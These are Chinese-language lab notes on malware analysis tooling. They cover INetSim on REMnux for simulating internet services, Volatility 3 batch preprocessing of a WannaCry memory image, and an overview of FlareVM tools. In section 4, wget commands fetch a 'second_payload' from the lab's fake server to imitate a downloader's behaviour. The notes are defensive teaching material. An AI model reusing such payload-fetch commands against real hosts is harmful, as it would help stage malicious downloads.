### 1. 实验目的
在**动态分析**恶意软件时，观察其网络行为（如连接 C2 服务器、下载第二阶段载荷）至关重要。但直接让病毒联网非常危险。
**INetSim (Internet Services Simulation Suite)** 可以在实验室环境下模拟真实的互联网服务（HTTP, DNS, FTP 等），让恶意软件“误以为”自己已经联网，从而安全地触发其网络行为。

---

### 2. 实验环境准备
* **分析机 (REMnux VM)**：运行 INetSim 服务，充当“假互联网”。
* **受害机 (AttackBox/Windows)**：运行恶意软件，并将其网络流量导向 REMnux。

---

### 3. INetSim 配置与启动（在 REMnux 上）

#### 第一步：获取本地 IP
使用 `ifconfig` 查看 REMnux 的 IP 地址（例如：`10.48.191.74`）。

#### 第二步：修改配置文件
需要让 INetSim 的 DNS 服务将所有域名解析请求都指向它自己。
1.  编辑配置：`sudo nano /etc/inetsim/inetsim.conf`
2.  找到 `#dns_default_ip 0.0.0.0` 行。
3.  **取消注释**（删掉 `#`）并将 IP 改为本地 IP：
    ```text
    dns_default_ip  10.48.191.74
    ```
4.  保存退出 (`Ctrl+O` -> `Enter` -> `Ctrl+X`)。

#### 第三步：启动服务
```bash
sudo inetsim
```
* **成功标志**：看到 `Simulation running` 字样。
* **注意**：`http_80_tcp - failed!` 提示通常是因为 80 端口被占用，本实验中使用 HTTPS (443) 即可，可忽略。

---

### 4. 模拟恶意行为（在受害机上）

恶意软件常见的行为是从远程服务器下载附加脚本或二进制文件。我们可以通过命令行模拟这一过程。

#### 模拟下载第二阶段载荷 (Payload)
在受害机终端执行以下命令：
```bash
sudo wget https://10.48.191.74/second_payload.zip --no-check-certificate
sudo wget https://10.48.191.74/second_payload.ps1 --no-check-certificate
```
* **原理**：虽然 `second_payload.zip` 在服务器上并不真实存在，但 INetSim 会自动返回一个“伪造文件（Fake File）”给请求者，确保恶意软件能继续执行下一步。
* **现象**：文件下载成功，打开这些文件通常会看到 INetSim 的默认欢迎页面。

---

### 5. 结果分析：连接报告

分析完成后，回到 REMnux 按 `Ctrl+C` 停止 INetSim。系统会自动生成一份详细报告。

#### 查看日志报告
报告通常保存在 `/var/log/inetsim/report/` 目录下：
```bash
sudo cat /var/log/inetsim/report/report.[PID].txt
```

**日志关键信息解读**：
* **时间戳**：记录请求发生的准确时间。
* **协议/方法**：例如 `HTTPS connection, method: GET`。
* **请求 URL**：记录了恶意软件尝试访问的具体地址，例如 `https://10.48.191.74/second_payload.ps1`。
* **响应流**：记录了系统交付给恶意软件的伪造文件路径。

---

### 6. 实验总结
* **隐蔽性**：通过修改 DNS 指向，我们可以让恶意软件在完全隔离的环境下尝试连接它预设的恶意域名。
* **欺骗性**：INetSim 的强大之处在于它能提供“虚假响应”，让下载器（Downloader）类型的木马能够成功“下载”下一阶段代码，从而暴露其完整的攻击链。
* **安全性**：所有的通信都局限在虚拟局域网内，没有任何真实流量流向互联网。

以下是关于使用 **Volatility 3** 和 **Strings** 工具进行内存取证证据预处理的实验笔记整理：

---

## 内存取证：证据预处理与 Volatility 3 应用

### 1. 实验背景
在数字取证中，**预处理（Preprocessing）** 是最常见的实践之一 。分析师通常需要运行取证工具，并将内存镜像中的特定工件（Artefacts）提取并保存为文本或 JSON 格式，以便后续快速检索和分析。

* **核心工具**：**Volatility 3**（REMnux VM 已预装）。
* **目标文件**：`wcry.mem`（Wannacry 勒索软件的内存镜像）。
* **文件路径**：`/home/ubuntu/Desktop/tasks/Wcry_memory_image/` 。

---

### 2. Volatility 3 常用插件介绍
在分析 Windows 内存镜像时，常用的插件及其功能如下：

| 插件名称 | 功能说明 |
| :--- | :--- |
| **windows.pstree.PsTree** | 以树状结构列出进程，展示父子进程关系。 |
| **windows.pslist.PsList** | 列出机器中所有当前活跃的进程。 |
| **windows.cmdline.CmdLine** | 列出进程运行时的命令行参数。 |
| **windows.filescan.FileScan** | 扫描内存镜像中的文件对象（结果可能超过 1400 行）。 |
| **windows.dlllist.DllList** | 列出特定进程加载的 DLL 模块。 |
| **windows.psscan.PsScan** | 扫描内存镜像中存在的进程工件。 |
| **windows.malfind.Malfind** | 列出可能包含注入代码的进程内存范围。 |

---

### 3. 高效预处理：批量处理脚本
为了加快证据预处理速度，可以使用 **Loop（循环）语句** 一次性运行多个插件，并将结果保存到独立的文本文件中 。

**批量执行命令：**
```bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; 
do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; 
done
```

# FlareVM
FlareVM，全称为“取证、逻辑分析与逆向工程”（Forensics, Logic Analysis, and Reverse Engineering），是一套全面且精心策划的专业工具集。它旨在满足逆向工程师、恶意软件分析师、事件响应人员、取证调查员以及渗透测试人员的特定需求。
## 这份笔记为您整理并翻译了 FlareVM 中的核心工具。FlareVM 是一个集成了大量专门用于数字取证、入侵响应和恶意软件调查工具的虚拟环境。

---

## FlareVM 核心工具库

### 1. 逆向工程与调试 (Reverse Engineering & Debugging)
**概念：** 逆向工程类似于“反向解谜”，通过拆解成品来理解其工作原理。调试则是识别、分析并修复代码中的错误。

* **Ghidra：** 美国国家安全局 (NSA) 开发的开源逆向工程套件。
* **x64dbg：** 支持 x64 和 x32 格式二进制文件的开源调试器。
* **OllyDbg：** 汇编级别的逆向工程调试器。
* **Radare2：** 功能复杂的开源逆向工程平台。
* **Binary Ninja：** 二进制文件反汇编与反编译工具。
* **PEiD：** 用于检测壳 (Packer)、加密器 (Cryptor) 和编译器的工具。

### 2. 反汇编与反编译器 (Disassemblers & Decompilers)
**概念：** 恶意软件分析的关键。通过将机器码转换为更易理解的格式，帮助分析人员理解恶意软件的行为逻辑和控制流。

* **CFF Explorer：** PE 编辑器，专门用于分析和修改可移植可执行文件 (PE)。
* **Hopper Disassembler：** 集调试、反汇编和反编译于一体的工具。
* **RetDec：** 针对机器码的开源反编译器。

### 3. 静态与动态分析 (Static & Dynamic Analysis)
**概念：** 静态分析是指在**不运行**代码的情况下进行检查；动态分析则是通过**运行**程序来观察其行为。

* **Process Hacker：** 强大的内存编辑与进程监控工具。
* **PEview：** 用于分析 PE 文件的查看器。
* **Dependency Walker：** 显示可执行文件所需 DLL 依赖关系的工具。
* **DIE (Detect It Easy)：** 另一款高效的壳、编译器和加密器检测工具。

### 4. 数字取证与入侵响应 (Forensics & Incident Response)
**概念：** 数字取证侧重于证据的收集和保存；入侵响应侧重于对网络攻击的检测、遏制、清除和恢复。

* **Volatility：** 用于内存取证的 RAM 转储分析框架。
* **Rekall：** 用于入侵响应的内存取证框架。
* **FTK Imager：** 用于取证的磁盘镜像获取与分析工具。

### 5. 网络分析 (Network Analysis)
**概念：** 研究网络流量以发现模式、优化性能并理解网络结构和行为。

* **Wireshark：** 用于记录和检查流量的网络协议分析仪。
* **Nmap：** 网络映射与漏洞检测工具。
* **Netcat：** 跨网络连接读写数据的多功能工具。

### 6. 文件分析 (File Analysis)
**概念：** 检查文件是否存在安全威胁，并确保文件权限正确。

* **FileInsight：** 用于查看和编辑二进制文件的程序。
* **Hex Fiend：** 轻量级、快速的十六进制编辑器。
* **HxD：** 常用的二进制文件查看与十六进制编辑工具。

### 7. 脚本与自动化 (Scripting & Automation)
**概念：** 利用脚本减少重复性任务，提高效率并减少人为错误。

* **Python：** 专注于自动化模块和工具的编程语言。
* **PowerShell Empire：** 针对 PowerShell 的后渗透测试框架。

### 8. Sysinternals Suite (系统工具集)
**概念：** 微软提供的辅助 IT 专家管理、排查和诊断 Windows 系统的核心工具。

* **Autoruns：** 显示系统启动时自动运行的执行文件。
* **Process Explorer：** 提供运行中进程的详细信息（任务管理器的强化版）。
* **Process Monitor：** 实时监控并记录进程/线程活动的日志工具。

---

### 常用调查工具价值速查表

| 工具名称 | 调查价值 / 核心功能 |
| :--- | :--- |
| **Procmon (Process Monitor)** | 追踪系统活动的得力助手。特别适用于**恶意软件研究**、故障排查以及数字取证调查。 |
| **Process Explorer** | 深入查看**父子进程关系**、已加载的 **DLL 动态链接库**及其存放路径。 |
| **HxD** | 通过**十六进制编辑**对恶意文件进行深层检查或人工修改。 |
| **Wireshark** | 监控并调查**网络流量**，从中发现异常通信活动或潜在威胁。 |
| **CFF Explorer** | 可生成文件哈希用于**完整性验证**，并能对系统文件进行来源认证和合法性校验。 |
| **PEStudio** | 在不运行文件的情况下进行**静态分析**，研究可执行文件的各项属性和特征。 |
| **FLOSS** | 利用高级静态分析技术，从恶意软件中**提取并解混淆 (De-obfuscate)** 所有的字符串信息。 |
